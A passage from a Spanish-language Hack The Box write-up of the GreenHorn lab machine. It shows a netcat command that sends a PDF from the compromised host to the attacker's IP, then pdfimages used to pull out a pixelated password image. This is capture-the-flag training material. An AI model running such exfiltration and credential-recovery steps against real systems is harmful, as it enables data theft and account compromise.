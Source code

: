 ![](/assets/img/htb-writeup-greenhorn/greenhorn3_1.png)

```terminal
/home/kali/Documents/htb/machines/greenhorn:-$ nc -lvp 54321 > 'Using OpenVAS.pdf'

junior@greenhorn:~$ nc 10.10.16.84 54321 < 'Using OpenVAS.pdf'
```

El PDF contiene una contraseña pixelada.

![](/assets/img/htb-writeup-greenhorn/greenhorn3_2.png)

Puedo extraer una imagen específica, utilicé la herramienta 'pdfimages', que permite extraer imágenes directamente desde archivos PDF.
Esto generó un archivo de imagen en formato '.ppm' con el nombre 'OpenVAS-000.ppm'.

```terminal
/home/kali/Documents/htb/machines/greenhorn:-$ pdfimages "./Using OpenVAS.pdf" OpenVAS
```
